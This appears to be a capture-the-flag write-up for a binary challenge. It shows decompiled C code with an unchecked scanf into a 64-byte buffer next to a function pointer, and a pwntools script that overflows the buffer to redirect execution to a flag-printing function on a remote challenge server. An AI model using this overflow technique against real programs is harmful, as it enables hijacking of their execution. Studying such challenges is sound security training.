

Opening the binary file in ghidra to find the following functions (some parts are removed for simplicity, some types and variables are renamed for better understanding):
```c
void main(void)
{
  char buff [64];
  code *code_addr;
  code_addr = (code *)0x0;
  printDogArt();
  fflush(_stdout);
  puts("who let the dogs out:");
  fflush(_stdout);
  __isoc99_scanf("%s", buff);
  if (code_addr == (code *)0x0) {
    puts("I tell the fellas start the name calling!");
  }
  else {
    printf("Well, the party was nice, the party was  @ %p\n",code_addr);
    fflush(_stdout);
    (*code_addr)();
  }
  exit(0);
}

void callme(void)
{
  puts("BDSEC{find_the_flag_on_server!!!}");
  exit(0);
}
```

Now, we want to call the function `callme`. But how do we do that? Well, if we look at the stack frame of `main`, we can see that `code_addr` is located right after `buff`. This means that if we overflow `buff`, we can overwrite `code_addr` with the address of `callme`. Now if the value of `code_addr` is not `0x0`, then `callme` will be called and we will get the flag. From ghidra we can find the address of the `callme` function to be `0x0804875e`. So to do the exploit, we can use the following python script:
```python
from pwn import *

# io = process('./callme')
io = remote('139.144.184.150', 3333)
io.recvuntil(b'who let the dogs out:\n')
io.sendline(b'A'*64 + p64(0x0804875e))
print(io.recvall().decode())
```